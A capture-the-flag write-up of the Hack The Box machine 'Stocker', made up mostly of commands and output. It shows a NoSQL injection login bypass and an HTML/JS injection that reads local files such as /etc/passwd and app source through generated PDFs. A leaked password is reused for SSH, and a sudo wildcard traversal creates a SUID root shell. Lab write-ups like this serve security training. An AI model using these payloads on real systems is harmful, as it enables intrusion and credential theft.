 # Target
| Category          | Details                                                |
|-------------------|--------------------------------------------------------|
| 📝 **Name**       | [Stocker](https://app.hackthebox.com/machines/Stocker) |  
| 🏷 **Type**       | HTB Machine                                            |
| 🖥 **OS**         | Linux                                                  |
| 🎯 **Difficulty** | Easy                                                   |
| 📁 **Tags**       | NoSQLi, MongoDB, NodeJS, LFI                           |

# Scan
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
```

# Attack path
1. [Discover `dev.stocker.htb` host](#discover-devstockerhtb-host)
2. [Gain a foothold via SSH using exfiltrated MongoDB credentials](#gain-a-foothold-via-ssh-using-exfiltrated-mongodb-credentials)
3. [Escalate to `root` user using exploitable wildcard in sudo command](#escalate-to-root-user-using-exploitable-wildcard-in-sudo-command)

### Discover `dev.stocker.htb` host

#### Add `stocker.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ echo "$TARGET stocker.htb" | sudo tee -a /etc/hosts
10.129.228.197 stocker.htb
```

#### Gathered intel by analyzing static web page content
Information found on web page suggest additional virtual hosts.
```
"I can't wait for people to use our new site! It's so fast and easy to use! We're working hard to give you the best experience possible, and we're nearly ready for it to go live!"
```

#### Enumerate virtual hosts
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ ffuf -r -u http://stocker.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.stocker.htb" -mc 200 -fs 15463

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 15463
________________________________________________

dev                     [Status: 200, Size: 2667, Words: 492, Lines: 76, Duration: 28ms]
```

#### Add discovered `dev.stocker.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ echo "$TARGET dev.stocker.htb" | sudo tee -a /etc/hosts
10.129.228.197 dev.stocker.htb
```

### Gain a foothold via SSH using exfiltrated MongoDB credentials

#### Bypass authentication with NoSQL injection
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ curl -s -c cookies.txt http://dev.stocker.htb/login -H "Content-Type: application/json" -d  '{"username":{"$ne":null},"password":{"$ne":null}}' -o /dev/null
```

#### Create a Bash alias to exfiltrate files through LFI in `/api/po`, leveraging HTML/JS injection in `/api/order`
We can inject HTML and JS in `title` of elements in `basket`. We are using this vulnerability to include local file (LFI) in `<object data='file://'>`. As there is not enough place render whole file, we are injecting JS in 2nd `title` to replace `document.body.innerHTML` with content of injected `<object>`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ lfi_cat() {
ORDER_ID=$(curl -s -b cookies.txt http://dev.stocker.htb/api/order -H "Content-Type: application/json" -d "{\"basket\":[{\"title\":\"<object id='file' data='file://$1' type='text/plain'></object>","price":1,"amount":1},{"title":"<script>const obj=document.getElementById('file');obj.onload=function(){const content=obj.contentDocument.body.innerText;document.body.innerHTML='<pre>'+content+'</pre>';};</script>\",\"price\":1,\"amount\":1}]}" | jq -r .orderId)
curl -s -b cookies.txt http://dev.stocker.htb/api/po/$ORDER_ID -o lfi.pdf && pdftotext lfi.pdf -
}; alias lfi_cat='lfi_cat'
```

#### List users with shell access
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ lfi_cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

#### Exfiltrate and reformat `/etc/nginx/nginx.conf`
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ lfi_cat /etc/nginx/nginx.conf | grep -v \# | awk '
{
  gsub(/[ \t]+$/, "")
  if ($0 ~ /^[ \t]*}/) indent--
  for (i = 0; i < indent; i++) printf "  ";
  print
  if ($0 ~ /{[ \t]*$/) indent++
}'
<SNIP>
  server {
    listen 80;
    root /var/www/dev;
    index index.html index.htm index.nginx-debian.html;
    server_name dev.stocker.htb;
    location / {
      proxy_pass http://127.0.0.1:3000;
<SNIP>
```

#### Exfiltrate web application source code
In exfiltrated source code we could find MongoDB credentials.
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ lfi_cat /var/www/dev/index.js
<SNIP>
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
<SNIP>
```

#### Reuse exfiltrated credentials to gain initial foothold over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Stocker]
└─$ ssh angoose@stocker.htb             
angoose@stocker.htb's password: 
Last login: Thu Jun 26 19:56:14 2025 from 10.10.14.157
angoose@stocker:~$ id
uid=1001(angoose) gid=1001(angoose) groups=1001(angoose)
```

### Escalate to `root` user using exploitable wildcard in sudo command

#### Identify exploitable wildcard usage in sudo command 
```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

#### Exploit wildcard to spawn root shell
```
angoose@stocker:~$ echo "require('child_process').exec('cp /bin/bash /tmp/root_shell;chmod +s /tmp/root_shell');" > /tmp/exploit.js &&
sudo /usr/bin/node /usr/local/scripts/../../../tmp/exploit.js &&
/tmp/root_shell -p
root_shell-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) egid=0(root) groups=0(root),1001(angoose)
```